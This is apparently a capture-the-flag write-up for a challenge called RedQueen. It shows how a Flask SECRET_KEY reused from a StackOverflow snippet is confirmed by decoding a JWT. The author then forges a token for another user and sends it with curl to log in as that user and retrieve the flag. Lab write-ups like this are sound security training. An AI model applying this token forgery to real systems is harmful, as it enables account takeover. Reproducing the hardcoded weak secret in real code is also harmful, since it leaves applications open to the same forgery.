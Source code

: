 You must admit that the code that we leaked looks too similar to this StackOverflow reference. Is it possible that the `SECRET_KEY` was also reused?

```python
app.config['SECRET_KEY'] = 'Th1s1ss3cr3t'
```

Let's try to verify this, first by trying to decode the JWT with a fake key, then using the suspected one:

```python
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiJhOWIzMzNiYS0wMWY4LTQ0MzQtOTgxNy01MzNmYzM5N2EyNzMiLCJ1c2VybmFtZSI6InVzZXIzIiwiZXhwIjoxNjcxMjE5NDc4fQ.JYVA-cZ38h
... Co8ipr0M6f48a6FCP-DLwpIFN3zra2OoM"
>>> data = jwt.decode(token, "fakeKey", algorithms="HS256")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/user/.local/lib/python3.10/site-packages/jwt/api_jwt.py", line 168, in decode
    decoded = self.decode_complete(
  File "/home/user/.local/lib/python3.10/site-packages/jwt/api_jwt.py", line 120, in decode_complete
    decoded = api_jws.decode_complete(
  File "/home/user/.local/lib/python3.10/site-packages/jwt/api_jws.py", line 202, in decode_complete
    self._verify_signature(signing_input, header, signature, key, algorithms)
  File "/home/user/.local/lib/python3.10/site-packages/jwt/api_jws.py", line 301, in _verify_signature
    raise InvalidSignatureError("Signature verification failed")
jwt.exceptions.InvalidSignatureError: Signature verification failed

Signature verification failed
>>> data = jwt.decode(token, "Th1s1ss3cr3t", algorithms="HS256")
>>> data
{'public_id': 'a9b333ba-01f8-4434-9817-533fc397a273', 'username': 'user3', 'exp': 1671219478}

>>>
```

It works! Which means that we can try to login as a different user. Which user? How about `RedQueen` from before?

```python
>>> data["username"] = "RedQueen"
>>> encoded = jwt.encode(data, "Th1s1ss3cr3t", algorithm="HS256")
>>> encoded
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiJhOWIzMzNiYS0wMWY4LTQ0MzQtOTgxNy01MzNmYzM5N2EyNzMiLCJ1c2VybmFtZSI6IlJlZFF1ZWVuIiwiZXhwIjoxNjcxMjE5NDc4fQ.N8Axj7taXH0zUMI1nUvT35FhphIvMj9Ea-xSyBzTa4Q'
```

We use this token to fetch the home page and get the flag:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/REdQueen]
└─$ curl 'https://redqueen.intent.ctf.today/home' -H 'Cookie: loginToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdWJsaWNfaWQiOiJhOWIzMzNiYS0wMWY4LTQ0MzQtOTgxNy01MzNmYzM5N2EyNzMiLCJ1c2VybmFtZSI6IlJlZFF1ZWVuIiwiZXhwIjoxNjcxMjE5NDc4fQ.N8Axj7taXH0zUMI1nUvT35FhphIvMj9Ea-xSyBzTa4Q; intent-session=57ba9ed9f1a7d3d960143325b18d935e|29c10b2a403876fa3e4afe21f6464b04' -s | grep FLAG
                 <h1>FLAG - INTENT{PR0B4BLY-W3-N33D-4-N3W-53CR37-MY-M4J357Y} </h1>
```